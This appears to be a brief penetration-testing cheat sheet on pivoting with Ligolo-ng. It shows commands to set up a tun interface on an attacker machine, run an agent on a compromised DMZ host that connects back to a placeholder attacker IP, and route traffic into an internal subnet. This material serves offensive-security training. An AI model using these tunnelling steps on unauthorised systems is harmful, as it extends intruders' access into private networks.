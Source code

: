# Pivoting

## Ligolo-ng

``` bash
#attacker-machine
sudo ip tuntap add user rzgami mode tun ligolo

sudo ip link set ligolo up

#dmz-machine
./agent -connect <attacker-ip>:11601

#attacker-machine
sudo ip route add 10.1.2.0/24 dev ligolo

proxy>>start
```
